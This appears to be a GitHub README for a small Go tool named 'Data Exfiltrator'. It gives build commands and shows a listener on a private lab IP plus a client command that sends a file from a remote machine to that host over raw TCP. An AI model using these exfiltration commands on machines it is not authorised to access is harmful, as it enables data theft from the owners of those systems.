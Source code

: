 # Data Exfiltrator
This is a simple data exfiltrator for transferring the file from one machine to your local machine if the remote machine can access your local machine.
Generally this purpose is fulfilled with the help of tools like `scp` but that goes over SSH.
This tool will be able to transfer text file from the remote machine to your local over TCP connection.

# Pre-requisites
(Nothing)

# Installing
1. Download the source code
2. Build commands for windows `$ GOOS=windows GOARCH=amd64 go build .` This will create `data_exfiltrator.exe` file which you can use.
3. For linux use `GOOS=linux GOARCH=amd64 go build .` 

## Steps
1. Run `server` subcommand to run a server over your local to accept file transfers from the remote machine. `something.txt` is the file that will have your data once client transfers.
```
$ ./data_exfiltrator server -o something.txt  --host 192.168.56.178
```

2. Download the binary over the remote machine and run the `client` subcommand. The client is (can be on linux as well) on windows and the `random.txt` is the file that will be exfiltrated.
```
$ ./data_exfiltrator.exe client -f random.txt --host 192.168.56.178 --port 8080
```
